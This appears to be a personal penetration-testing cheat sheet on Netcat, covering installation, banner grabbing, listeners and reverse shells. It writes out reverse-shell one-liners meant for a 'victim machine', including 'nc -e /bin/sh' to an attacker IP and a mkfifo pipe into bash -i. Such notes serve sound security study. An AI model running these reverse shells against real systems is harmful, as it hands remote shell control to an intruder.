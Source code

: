 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Summary
[Netcat](https://linux.die.net/man/1/nc) or *nc* is a network utility for interacting with TCP/UDP ports.
> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.
> [[Socat]] is a similar tool to netcat but offers additional features including full TTY reverse shells

> ncat is the Nmap version of netcat, they are different and have different features.
## Installation
```
sudo apt install netcat
```

## Documentation
**Cheatsheet:** https://quickref.me/nc.html
**Website:** 
## Usage
### Banner Grabbing
```
nc -vn [target] [port]
```
This aids us in confirming the service running on a particular port.

We can also use `curl -IL [url]` for banner grabbing web server headers.

### Create a simple reverse shell
In many versions of netcat, the *-e* flag doesn't exist so this method isn't all reliable
```shell
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]
```
- *-e* : binds a shell to a port

Without *-e*:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [Port] > /tmp/f
```

### Create a listener
```
nc -lvnp [Port]
```
- *-l* : specifies to listen
- *-v* : more vebose
- *-n* : disables DNS resolution and uses just IPs, to speed up the connection
- *-p* : specifies the source port

